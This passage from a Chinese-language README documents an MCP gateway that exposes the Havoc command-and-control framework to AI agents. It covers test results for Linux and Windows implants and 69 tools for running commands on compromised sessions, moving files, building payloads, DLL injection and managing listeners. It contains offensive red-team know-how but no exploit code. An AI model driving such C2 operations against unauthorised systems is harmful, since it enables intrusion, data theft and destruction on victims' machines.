- `download` 实测：teamserver 落地文件复制到 `data/loot/<demon>/`，战利品「下载」可点击保存；
- `screenshot` 实测落地并显示缩略图；`dotnet execute` / `jump-exec psexec` 模块路由与参数错误提示；
- Qt 客户端（5pider）与网关（Neo）同时在线不互踢；
- **Linux Exe 载荷（2026-11-10）**：x64/x86 均生成并上线（`690b6bc2`/`4bd685d9`），
  `shell uname -r`、`pwd/ls/cat`、`download/upload`、`proc list/grep/kill`、`checkin`、`sleep`
  实测通过；Linux 会话的 `shell` 自动走 `/bin/sh -c`；Windows 构建与上述脚本无回归。
- **本轮 9 项差距验收（2026-11-10/11）**：
  - `python3 gap_features_test.py` → **42/42**：心跳绝对时间、战利品下载头/内容、历史隔离与刷新持久化、
    拓扑图缩放/平移/复位/命中、会话菜单、断开/恢复、移除/重连恢复、脚本上传/重载/卸载/autoload、
    Python 宿主跨请求变量/控制台注册/脚本共享全局/崩溃恢复；
  - `python3 sdk_contract_test.py` → **35/35**：SDK 签名、`GeneratePayload` base64 回调/409、
    `LoadScript` 三态、`ProcessCreate` 字段顺序（`state;verbose;piped;app;b64(cmdline)`）、
    `Agent.Command` 明确 NotImplemented、`register.py` 上报 stub；
  - live：Linux 会话 `ProcessCreate("/bin/echo", "hello-from-sdk")` 回显 `hello-from-sdk`；
    `GeneratePayload` 构建 Linux Exe 并收到 base64（8,246,828 字符）；
    `RegisterCallback` 在临时 Linux Demon 上线时回调到 `7572b0b0`；
    一次性 Linux Demon 上 `exit process`：控制台显示任务，teamserver 回显
    “Agent has been tasked to cleanup and exit process. cya...”，进程退出；会话行是否自动消失
    取决于 teamserver 是否发送 SessionRemove（Linux 测试会话先变为 stale；Windows/客户端同理）；
  - 回归：`acceptance.py` **15/15**、`ui_feature_test.py` **15/15**（聊天用例改为测试自播种，
    不再依赖上次运行的残留）、`command_test.py` **34/34**；
  - `ui_feature_test.py` 的关键右键回归（全局 mousedown 不吞 `#context-menu`）保持通过。
- **MCP 管理页（2026-11-11）**：
  - `python3 mcp_admin_test.py` → **92/92**：`/api/mcp/status`、stop 后 `/mcp` 503、
    start 后 `initialize`/`tools/list`（69）、重复启停 409、审计事件、令牌轮换（旧 401/新 200、
    旧 Session 失效、文件 0600）、`data/mcp_state.json` 持久化、`mcp.enabled=false` 时
    status 可读但 start 409 且 `/mcp` 404；
    独立端口：页面 API 修改 `/api/mcp/port`、端点切换、WebUI `/mcp` 404 moved、
    独立端口 initialize/tools（69）、停止 503、非法端口 400、端口占用 409 并保留原端口、
    写回 `config.json → mcp.port`、重启后恢复、MCP 令牌不能改端口；
  - 回归：`mcp_test.py` **40/40**、`mcp_test.py --live` **47/47**、
    `delivery_chain_test.py` **19/19**、`node --check static/app.js` 通过；
  - live：管理页停止后 `/mcp` 503（message 含“MCP 已停止”），`/api/state` 与 `/api/events`
    仍 200；启动后 `initialize` 200、`tools/list` 69；17 个会话（含 3 个 10.10.x Linux 实验会话）
    与 `data/delivery_edges.json` 在网关重启后恢复；
  - live 端口切换：页面把 8081 切到临时独立端口后，8081 `/mcp` 404 moved、新端口
    initialize 200，恢复 0 后 8081 `/mcp` 200，`config.json → mcp.port` 最终回到 0；
  - 截图：`docs/mcp-admin-running.png`、`docs/mcp-admin-stopped.png`、
    `docs/mcp-admin-port.png`、`docs/mcp-admin-tools.png`。

## 10. MCP 接入（Web 全部功能对外调用）

MCP（Model Context Protocol）层把 webui 的全部 HTTP 能力映射为工具，外部程序
（Claude Desktop、Cursor、自研 Agent、脚本）可以像浏览器一样操作同一套会话、
监听器、文件、脚本与 Python 宿主。**MCP 调用与浏览器共享状态、权限与事件审计**，
不是第二套旁路接口。

### 10.1 能力覆盖

| 能力 | MCP 工具 |
| --- | --- |
| 网关/团队服务器 | `havoc_health` `havoc_me` `havoc_state` `havoc_status` `havoc_profile` `havoc_reconnect` `havoc_disconnect_teamserver` `havoc_stager_health` `havoc_start_stager` |
| 会话/命令 | `havoc_list_sessions` `havoc_get_session` `havoc_session_console` `havoc_session_tasks` `havoc_run_command` `havoc_mark_session` `havoc_remove_session` `havoc_exit_session` |
| 文件 | `havoc_files_cache` `havoc_files_list` `havoc_files_mkdir` `havoc_files_remove` `havoc_files_move` `havoc_files_copy` `havoc_files_write` `havoc_files_read` `havoc_files_download` `havoc_files_upload` `havoc_upload_staging` |
| 进程 | `havoc_processes_cache` `havoc_processes_list` `havoc_kill_process` |
| 监听器/传输 | `havoc_list_listeners` `havoc_list_service_listeners` `havoc_add_listener` `havoc_edit_listener` `havoc_remove_listener` `havoc_start_listener` `havoc_stop_listener` `havoc_build_relay` `havoc_transport_modes` |
| 聊天/事件/战利品 | `havoc_chat_history` `havoc_send_chat` `havoc_events` `havoc_list_loot` `havoc_download_loot` |
| 载荷/商店 | `havoc_build_payload` `havoc_list_payloads` `havoc_download_payload` `havoc_store_list` `havoc_install_extension` |
| 脚本/Python | `havoc_list_scripts` `havoc_get_script` `havoc_load_script` `havoc_reload_script` `havoc_unload_script` `havoc_upload_script` `havoc_python_repl` `havoc_python_console` `havoc_python_command` `havoc_python_task` `havoc_python_inline_execute` `havoc_python_dll_spawn` `havoc_python_proc_create` `havoc_python_register` `havoc_python_autoload` `havoc_python_bof_result` |
| 帮助/元数据 | `havoc_help` `havoc_commands` `havoc_mcp_info` |

共 **69 个工具**；另有 15 个只读资源与 3 个提示词（见 10.6）。
`havoc_run_command` 的 `wait_seconds` 可等待任务完成并直接返回输出，适合 Agent 串行编排。

### 10.2 MCP 管理页（运行时启停）

顶部菜单 `MCP → MCP 管理` 打开可关闭标签页（也可从 `帮助 → MCP 接入 → 打开管理页` 进入）：









菜单与入口：



- **状态**：运行中 / 已停止 / 配置已禁用，启动时间、运行时长、MCP 会话数；
- **启停**：运行中显示“停止 MCP”，停止后显示“启动 MCP”；`mcp.enabled=false` 时按钮禁用；
- **端口**：页面输入框可直接修改 MCP 监听端口：
  - `0` = 复用 WebUI 端口（默认）；
  - `1..65535` = 独立 MCP 端口，只在该端口监听 `/mcp`，WebUI 端口的 `/mcp` 返回
    `404 moved`；页面显示的端点、HTTP 客户端配置会同步切换；
  - 修改即时重新绑定，成功后写回 `config.json → mcp.port`，重启后保持；会清空现有
    MCP 会话，客户端需重新 `initialize`；端口被占用时返回 409 并保留原端口；
- **端点/协议**：当前 MCP 端点、Streamable HTTP、支持的协议版本；
- **令牌**：文件路径 + 掩码；“复制令牌 / 显示”走受登录保护的 `GET /api/mcp/token`
  并写审计；轮换写新令牌到 `run/mcp.token`（0600），旧令牌立即 401、所有 MCP 会话失效；
  令牌来自 `config.json → mcp.token` 时不允许页面轮换；
- **能力**：69 tools / 15 resources / 3 prompts，工具列表可展开；
- **客户端配置**：HTTP JSON（可一键复制含令牌）与 stdio 命令；
- **最近事件**：启动 / 停止 / 令牌轮换 / 来自 MCP 令牌的工具调用审计。

停止时**不删除 aiohttp 路由**，只关闭运行态 gate：`POST/GET/DELETE /mcp` 统一返回
`503`（JSON-RPC error，message 含“MCP 已停止”），旧 `Mcp-Session-Id` 立即失效。
浏览器 REST/WS、投递链与 Python SDK 完全不受影响；再次启动后重新 `initialize` 即可。
运行态持久化在 `data/mcp_state.json`（`mcp.state_file`），端口持久化在
`config.json → mcp.port`，网关重启后都恢复。
状态与操作接口：`GET /api/mcp/status`、`POST /api/mcp/start|stop|port`、
`GET /api/mcp/token`、`POST /api/mcp/token/rotate`（后四个仅接受 Web 登录 cookie）。
独立端口由网关进程内的第二个 aiohttp listener 提供，只注册 `/mcp`，不暴露 REST/WS。

### 10.3 快速接入（HTTP，推荐远程）

网关启动后自动生成令牌：

```bash
cd /home/kali/桌面/Havoc/webui
cat run/mcp.token          # 0600；也可在 config.json → mcp.token 固定
curl -s http://127.0.0.1:8081/mcp \
  -H "Authorization: Bearer $(cat run/mcp.token)" \
  -H 'Content-Type: application/json' \
  -d '{"jsonrpc":"2.0","id":1,"method":"tools/call","params":{"name":"havoc_list_sessions","arguments":{}}}'
```

- 端点：默认 `http://<网关地址>:8081/mcp`（HTTPS 配置下为 `https://.../mcp`）；
  若在管理页设置了独立端口，则改用 `http://<网关地址>:<mcp.port>/mcp`，
  WebUI 端口的 `/mcp` 返回 `404 moved`
- 协议：Streamable HTTP，支持 `Mcp-Session-Id`；`GET /mcp` 返回 405（无 SSE 推送），
  `DELETE /mcp` 结束会话
- 鉴权：`Authorization: Bearer <token>`；也接受 `X-MCP-Token`
- 同上令牌也可调用全部 `/api/*`（方便脚本/Agent 直接走 REST），但**不能**启停 MCP 或读取明文令牌
- Web 界面：菜单 `MCP → MCP 管理` 查看状态/启停/复制令牌/客户端配置；`帮助 → MCP 接入`
  保留接入信息（端点/令牌文件/工具数/配置示例）并可跳转管理页
- 管理页停止后 `/mcp` 返回 `503`（JSON-RPC error，message 含“MCP 已停止”），
  浏览器 REST/WS、投递链与 Python SDK 不受影响；重新启动后客户端需重新 `initialize`

MCP 客户端配置（HTTP 型客户端）：

```json
{
  "mcpServers": {
    "havoc-webui": {
      "url": "http://192.168.121.132:8081/mcp",
      "headers": { "Authorization": "Bearer <run/mcp.token 内容>" }
    }
  }
}
```

### 10.4 快速接入（stdio，本机客户端）

```bash
python3 mcp_server.py --stdio                          # 默认读取 run/mcp.token
python3 mcp_server.py --stdio --url http://127.0.0.1:8081 --token-file run/mcp.token
python3 mcp_server.py --list-tools                     # 打印全部工具
```

Claude Desktop / Cursor 等 `command` 型客户端：

```json
{
  "mcpServers": {
    "havoc-webui": {
      "command": "python3",
      "args": ["/home/kali/桌面/Havoc/webui/mcp_server.py", "--stdio"]
    }
  }
}
```

stdio 只把 JSON-RPC 写到 stdout，日志全部走 stderr；同时兼容换行分隔 JSON 与
`Content-Length` 帧。也可独立跑一个 HTTP MCP 端口：
`python3 mcp_server.py --http --host 127.0.0.1 --port 8090`（`GET /health` 无需令牌）。

### 10.5 工具清单（按功能分组）

| 工具 | 说明 |
| --- | --- |
| `havoc_health` | 网关健康检查 |
| `havoc_me` | 当前登录身份 |
| `havoc_state` | 全量快照 |
| `havoc_status` | 连接与计数 |
| `havoc_profile` | 团队服务器 Profile |
| `havoc_reconnect` | 重连 teamserver |
| `havoc_disconnect_teamserver` | 断开 teamserver |
| `havoc_stager_health` | 暂存服务健康检查 |
| `havoc_start_stager` | 启动暂存服务 |
| `havoc_list_sessions` | 会话列表 |
| `havoc_get_session` | 会话详情 |
| `havoc_session_console` | 控制台回显 |
| `havoc_session_tasks` | 会话任务 |
| `havoc_mark_session` | 标记会话存活状态 |
| `havoc_remove_session` | 移除会话（仅 Web 本地） |
| `havoc_exit_session` | 退出会话（线程/进程） |
| `havoc_run_command` | 下发控制台命令（可等待输出） |
| `havoc_files_cache` | 文件列表缓存 |
| `havoc_files_list` | 列出远程目录 |
| `havoc_files_mkdir` | 新建远程目录 |
| `havoc_files_remove` | 删除远程文件/目录 |
| `havoc_files_move` | 移动/重命名 |
| `havoc_files_copy` | 复制文件/目录 |
| `havoc_files_write` | 写入远程文本文件 |
| `havoc_files_read` | 读取远程文本文件 |
| `havoc_files_download` | 下载远程文件（可 `save_to` 落盘） |
| `havoc_files_upload` | 上传本地文件到会话（≤32 MiB） |
| `havoc_upload_staging` | 上传到控制台暂存目录（≤64 MiB） |
| `havoc_processes_cache` | 进程列表缓存 |
| `havoc_processes_list` | 请求进程列表 |
| `havoc_kill_process` | 结束进程 |
| `havoc_list_listeners` | 监听器列表 |
| `havoc_list_service_listeners` | 服务插件监听器协议 |
| `havoc_add_listener` | 创建监听器 |
| `havoc_edit_listener` | 编辑监听器 |
| `havoc_remove_listener` | 删除监听器 |
| `havoc_start_listener` | 启动传输监听器 |
| `havoc_stop_listener` | 停止传输监听器 |
| `havoc_build_relay` | 编译/下载 Go 中继器 |
| `havoc_transport_modes` | 传输模式元数据 |
| `havoc_chat_history` | 团队聊天记录 |
| `havoc_send_chat` | 发送团队聊天 |
| `havoc_events` | 事件日志（`after` 增量） |
| `havoc_list_loot` | 战利品列表 |
| `havoc_download_loot` | 下载战利品 |
| `havoc_build_payload` | 生成载荷 |
| `havoc_list_payloads` | 载荷构建列表 |
| `havoc_download_payload` | 下载载荷 |
| `havoc_store_list` | 扩展商店目录 |
| `havoc_install_extension` | 安装扩展 |
| `havoc_list_scripts` | 脚本列表 |
| `havoc_get_script` | 读取脚本源码 |
| `havoc_load_script` | 加载脚本 |
| `havoc_reload_script` | 重载脚本 |
| `havoc_unload_script` | 卸载脚本 |
| `havoc_upload_script` | 上传 Python 脚本 |
| `havoc_python_repl` | Python 控制台执行 |
| `havoc_python_console` | 写入会话控制台 |
| `havoc_python_command` | SDK 下发命令 |
| `havoc_python_task` | 查询任务 |
| `havoc_python_inline_execute` | BOF 对象文件执行 |
| `havoc_python_dll_spawn` | DLL 注入执行 |
| `havoc_python_proc_create` | 创建进程 |
| `havoc_python_register` | 注册 Python 命令 |
| `havoc_python_autoload` | 设置脚本自动加载 |
| `havoc_python_bof_result` | 查询 BOF 回调 |
| `havoc_help` | 命令帮助 |
| `havoc_commands` | 命令元数据 |
| `havoc_mcp_info` | MCP 服务信息 |

### 10.6 资源与提示词

只读资源（`resources/read` 的 `uri`）：
`havoc://state`、`havoc://status`、`havoc://sessions`、`havoc://listeners`、
`havoc://service-listeners`、`havoc://events`、`havoc://chat`、`havoc://loot`、
`havoc://payloads`、`havoc://scripts`、`havoc://profile`、`havoc://commands`、
`havoc://help`、`havoc://transports`、`havoc://mcp`。

提示词（`prompts/get`）：`triage_session`（参数 `session_id`）、`audit_listeners`、
`operation_summary`。

### 10.7 路径与二进制约定

- 目标主机路径（`havoc_files_*` 的 `path`）由 Demon/Agent 解析；
  `local_file`/`save_to` 指的是 **MCP 服务所在主机**（网关机）的路径。
- 下载类工具默认内联 ≤1 MiB 的 Base64；更大的内容请传 `save_to` 直接落盘，
  返回 `saved_to`、`bytes`、`sha256`。`max_bytes` 默认 64 MiB，可上调。
- 上传类工具支持 `local_file` 或 `content_b64` + `filename`。
- `havoc_add_listener`/`havoc_edit_listener` 的 `extra` 对象会原样并入请求体，
  用于传输监听器参数（`vkey`/`salt`/`tls` 等）与服务插件自定义字段。

### 10.8 验收与排错

```bash
cd webui
python3 mcp_test.py                # 离线 40 项：协议/工具/资源/stdio/网关挂载/鉴权
python3 mcp_test.py --live         # 追加对运行中 8081 网关的只读检查（47 项）
python3 mcp_admin_test.py          # 管理页后端 92 项：status/start/stop/端口/503/持久化/令牌轮换
python3 mcp_server.py --list-tools # 工具清单
```

- `503 MCP 已停止`：操作员在管理页停止了服务。打开 `MCP → MCP 管理` 点“启动 MCP”，
  客户端随后重新 `initialize`；`data/mcp_state.json` 记录当前运行态。
- `401 unauthorized`：令牌不匹配。确认 `run/mcp.token` 与客户端 `Authorization` 一致；
  `mcp.enabled=false` 时 `/mcp` 直接 404。
- `404 MCP 会话已失效`：客户端带了未知 `Mcp-Session-Id`（停止、轮换令牌、修改端口、网关重启都会清空），
  重新 `initialize` 即可。
- `404 moved`：管理页把 MCP 切到了独立端口，WebUI 端口的 `/mcp` 不再提供服务；
  改用 `GET /api/mcp/status` 里的 `endpoint`，或把端口改回 `0`。
- `409 port_unavailable`：目标端口被占用/无权限绑定；换一个端口，页面会保留原端口继续服务。
- `400 port_conflict`：填了 WebUI 端口；复用 WebUI 端口请填 `0`。
- `网关错误：HTTP 503 disconnected`：teamserver 断线，先在 Web 端点「重连」或调用
  `havoc_reconnect`。
- 工具返回 `isError: true` 表示业务错误（会话不存在、路径越界、未连接等），
  JSON-RPC 层仍是成功响应；`error` 对象仅用于协议错误/未知工具/未知资源。

### 10.9 限制

- 不提供 server→client SSE 推送；事件用 `havoc_events?after=<last_id>` 轮询增量。
- 资源是读取时的快照，不支持 `resources/subscribe`。
- 独立端口由网关进程内的第二个 listener 提供，只注册 `/mcp`；修改端口会清空 MCP 会话，
  已连接的客户端必须切到新端点并重新 `initialize`。
- `mcp.port` 与 `mcp.host` 在 `config.json` 中持久化；管理页修改端口会原子写回该文件，
  需要文件可写且端口可绑定。
- MCP 令牌等同操作员权限，`havoc_run_command`、`havoc_python_*`、删除/注入类工具
  具有破坏性；Agent 编排时应先展示计划再执行。
- `havoc_python_*` 是 SDK 内部接口的低层映射，正常脚本开发优先用 `havoc_python_repl`
  或 `havoc_run_command`。
